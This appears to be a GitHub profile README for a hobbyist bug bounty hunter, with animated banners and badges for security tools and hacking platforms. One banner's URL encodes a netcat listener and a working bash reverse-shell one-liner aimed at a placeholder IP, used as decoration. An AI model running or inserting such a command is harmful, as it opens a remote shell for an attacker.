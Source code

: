 <h1 align="center">Hi 👋, I'm b1kr3m</h1>


<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=4000&pause=500&color=29E8F7&multiline=true&width=500&height=255&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5Bb1kr3m%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;b1kr3m%40profile%3A~%24+.%2Fexploit.py;......................................................................................................;...................PwN3d!......................................;+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++;%24whoami;b1kr3m" alt="Typing SVG" /></a>


```bash
$ whoami
bug_bounty_hunter_in_training
$ uname -a
Arch Linux | Hyprland | Security Focused
$ echo $MISSION
"Making the web safer, one vulnerability at a time"
```
<div align='right'>

</div>

<div align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=00F7FF&center=true&vCenter=true&width=435&lines=Bug+Bounty+Hunter+%F0%9F%91%A8%E2%80%8D%F0%9F%92%BB;Cybersecurity+Enthusiast+%F0%9F%94%92;Linux+Power+User+%F0%9F%90%A7;Learning+%26+Growing+%F0%9F%9A%80" alt="Typing SVG" />
</div>


### ⚓️ Primary Pentesting Rig:
<p align='center'>
  <img src="https://img.shields.io/badge/Arch-f23224?style=for-the-badge&logo=arch-linux&logoColor=white" />
  <img src="https://img.shields.io/badge/Hyprland-blue?style=for-the-badge&logoColor=white" />
  <img src="https://img.shields.io/badge/core%20i7%2013th-%230071C5.svg?&style=for-the-badge&logo=intel&logoColor=white" />
  <img src="https://img.shields.io/badge/rtx%204060-%2376B900.svg?&style=for-the-badge&logo=nvidia&logoColor=white" />
  <img src="https://img.shields.io/badge/RAM-32GB-%230071C5.svg?&style=for-the-badge&logoColor=white" />
</p>

### 🔐 Security Tools

<p align="left">
  <img src="https://img.shields.io/badge/Burp%20Suite-FF6633?style=for-the-badge&logo=burpsuite&logoColor=white" alt="Burp Suite"/>
  <img src="https://img.shields.io/badge/Wireshark-1679A7?style=for-the-badge&logo=wireshark&logoColor=white" alt="Wireshark"/>
  <img src="https://img.shields.io/badge/Metasploit-2596CD?style=for-the-badge&logo=metasploit&logoColor=white" alt="Metasploit"/>
  <img src="https://img.shields.io/badge/Nmap-2C2C2C?style=for-the-badge&logo=nmap&logoColor=white" alt="Nmap"/>
  <img src="https://img.shields.io/badge/Amass-FF6F00?style=for-the-badge&logo=apache&logoColor=white" alt="Amass"/>
  <img src="https://img.shields.io/badge/Sublist3r-4B8BBE?style=for-the-badge&logo=python&logoColor=white" alt="Sublist3r"/>
  <img src="https://img.shields.io/badge/FFUF-FFD700?style=for-the-badge&logo=fastapi&logoColor=black" alt="FFUF"/>
  <img src="https://img.shields.io/badge/SQLmap-800000?style=for-the-badge&logo=sqlite&logoColor=white" alt="SQLmap"/>
  <img src="https://img.shields.io/badge/Hydra-228B22?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Hydra"/>
  <img src="https://img.shields.io/badge/HackerOne-494949?style=for-the-badge&logo=hackerone&logoColor=white" alt="HackerOne"/>
  <img src="https://img.shields.io/badge/Bugcrowd-FF6600?style=for-the-badge&logo=bugcrowd&logoColor=white" alt="Bugcrowd"/>
  <img src="https://img.shields.io/badge/TryHackMe-212C42?style=for-the-badge&logo=tryhackme&logoColor=red" alt="TryHackMe"/>
  <img src="https://img.shields.io/badge/HackTheBox-111927?style=for-the-badge&logo=hackthebox&logoColor=9FEF00" alt="Hack The Box"/>
  <img src="https://img.shields.io/badge/Kali-557C94?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali Linux"/>
  <img src="https://img.shields.io/badge/OWASP-000000?style=for-the-badge&logo=owasp&logoColor=white" alt="OWASP"/>
</p>


<picture>
  <source media="(prefers-color-scheme: dark)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
  <img alt="pacman contribution graph" src="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
</picture>

---

<div align="center">
**"From fear to first bounty - the journey continues..."** 🎯

[![Linux](https://img.shields.io/badge/-Linux-000000?style=flat&logo=linux&logoColor=FCC624)](https://github.com/b1kr3m)
[![Security](https://img.shields.io/badge/-Security-000000?style=flat&logo=hackaday&logoColor=1FC7D4)](https://github.com/b1kr3m)
[![Bug Bounty](https://img.shields.io/badge/-Bug%20Bounty-000000?style=flat&logo=bugcrowd&logoColor=F26822)](https://github.com/b1kr3m)
</div>

